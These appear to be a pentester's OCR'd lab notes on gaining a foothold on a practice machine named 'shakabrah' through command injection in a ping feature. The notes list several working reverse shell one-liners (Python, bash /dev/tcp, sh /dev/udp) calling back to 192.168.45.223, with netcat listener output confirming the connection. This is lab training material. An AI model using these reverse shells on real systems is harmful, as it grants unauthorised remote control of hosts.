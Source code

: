 PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.

64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.023 ms

64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.038 ms

64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms

64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.042 ms

  

--- 127.0.0.1 ping statistics ---

4 packets transmitted, 4 received, 0% packet loss, time 3069ms

rtt min/avg/max/mdev = 0.023/0.035/0.042/0.008 ms

www-data

  

Ok now will try with other reverse shells. If not maybe it's python3

python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.223",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

So python isn't working. A bash rev shell should work though.

  

/bin/bash -l > /dev/tcp/192.168.45.223/4444 0<&1 2>&1

no dice. Maybe

sh -i >& /dev/udp/192.168.45.223/4444 0>&1

Great site for this: [https://www.revshells.com/](https://www.revshells.com/)

  

uname -a 

Linux shakabrah 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

  

suggested to try python 3 #2. Also suggested to run it over port 80 since it's already open

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.223",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'

  

Works

 ⚠   kali  🏡                                                                                                     

 →  nc -nlvp 80                                                                                            18:09:16

listening on [any] 80 ...

connect to [192.168.45.223] from (UNKNOWN) [192.168.239.86] 51928

